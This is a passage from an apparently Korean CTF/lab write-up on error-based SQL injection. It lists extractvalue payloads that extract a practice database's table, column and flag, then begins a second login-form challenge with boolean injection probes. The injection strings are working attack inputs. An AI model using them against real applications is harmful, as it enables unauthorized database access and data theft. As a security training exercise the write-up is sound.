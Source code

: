 **Error Based SQL Injection을 통해 데이터베이스 이름(`sqli_2`)을 성공적으로 추출**할 수 있었다.

이제 이 정보를 바탕으로, **해당 데이터베이스 내의 테이블, 컬럼, 그리고 최종 데이터까지** 순차적으로 추출할 것이다.

```sql
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2' limit 0,1))) and '1'='1
```

> 테이블 이름: **flag_table**

테이블 이름까지 성공적으로 추출하였다. 이제 해당 테이블에서 컬럼명을 추출해보겠다.

```sql
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2' and table_name='flag_table' limit 0,1))) and '1'='1
```

> 컬럼 이름: **flag**

이제 마지막으로, 이 컬럼에 저장된 **flag 값**을 추출해보겠다.

```sql
' or extractvalue(1,concat(0x7e,(select flag from flag_table limit 0,1))) and '1'='1
```

![sqli3 flag](/assets/web-screenshots/blind-error-based-sqli/sqli3_flag.png)

**이렇게 해서 최종적으로 flag 값을 성공적으로 획득하였다.**

---

## SQL Injection 4 (Error Based SQLI)

이번 문제 이전과 동일한 로그인 화면으로 시작된다.

- 계정: normaltic / 1234

똑같이 문제에서 준 아이디/비번으로 로그인을 시도하니 로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 통해 **로그인 여부를 HTTP 응답 코드로 판별할 수 있음**을 알 수 있다.

우선, SQL 인젝션이 가능한지 확인하기 위해 간단한 테스트를 진행하였다.

아까와 똑같이 `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

이번에도 **Error Based SQL Injection** 기법을 사용하여 공격을 시도할 것이다.
